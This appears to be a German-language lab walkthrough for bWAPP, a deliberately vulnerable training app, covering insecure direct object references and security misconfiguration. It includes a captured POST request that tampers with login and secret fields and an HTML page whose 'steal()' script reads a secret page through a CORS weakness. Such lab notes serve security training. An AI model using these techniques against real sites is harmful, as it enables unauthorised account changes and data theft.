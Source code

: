 
### // A4 - INSECURE DIRECT OBJECT REFERENCES //
---
##### Insecure DOR (Change Secret)

Mit burp können versteckte elemente angezeigt werden.<br>
Oder es können die POST Parameter abgefangen werden.

---
##### Insecure DOR (Reset Secret)
Das "Login" und "Secret" feld kann angepasst werden:
~~~
POST /bWAPP/xxe-2.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://localhost:8083/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=2
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
~~~

---
##### Insecure DOR (Order Tickets)
bWAPP/insecure_direct_object_ref_2.php <br>
Mit burp können vesteckte ticketpreise angezeigt werden. 
Oder die POST Paramter während der übetragung über ein Proxy manipulieren.

---

### // A5 - Security Misconfiguration //
---
##### Arbitrary File Access (Samba)
---
##### Cross-Domain Policy File (Flash)
---
##### Cross-Origin Resource Sharing (AJAX)
~~~
<html>
    <head>
    <script>
        function steal() {
            var r = new XMLHttpRequest();
            r.onreadystatechange = function() {
                if (r.readyState == 4 && r.status == 200) {
                    alert(r.responseText);
                }
            };
            r.open("GET", "http://localhost:8083/bWAPP/secret-cors-1.php", true);
            r.send();
        }
    </script>
    </head>
    <body onload="steal()">
    </body>
~~~